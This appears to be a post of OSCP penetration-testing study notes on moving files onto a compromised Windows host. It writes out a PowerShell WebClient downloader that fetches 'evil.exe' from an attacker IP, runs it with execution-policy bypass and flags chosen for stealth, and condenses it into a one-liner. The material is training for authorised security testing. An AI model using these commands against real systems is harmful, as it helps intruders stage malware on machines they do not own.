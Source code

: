 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/25.jpg)


-----------------------------------------------------------------------------------

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/26.jpg)

• In recent versions of windows power shell is easier.

• For more recent versions of Windows, we can use PowerShell as an even simpler downloadalternative.

• The example below shows an implementation of a downloader script using theSystem.Net.WebClient PowerShell class

C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\Users\Offsec> echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1
C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1

• Now we can use PowerShell to run the script and download our file.

• However, to ensure both correctand stealthy execution, we specify a number of options in the execution of the script as shown.


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/27.jpg)



![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/28.jpg)


• First, we must allow execution of PowerShell scripts (which is restricted by default) with the -ExecutionPolicy keyword and Bypass value.
 
• Next, we will use -NoLogo and -NonInteractiveto hide the PowerShell logo banner and suppress the interactive PowerShell prompt, respectively.
 
• The -NoProfile keyword will prevent PowerShell from loading the default profile (which is notneeded), and finally we specify the script file with -File:

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/29.jpg)

C:\Users\Offsec> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoPro
file -File wget.ps1
# - Executing the PowerShell HTTP downloader script

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/30.jpg)

C:\Users\Offsec> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http:/
/10.11.0.4/evil.exe', 'new-exploit.exe')
# - Executing the PowerShell HTTP downloader script as a one-liner

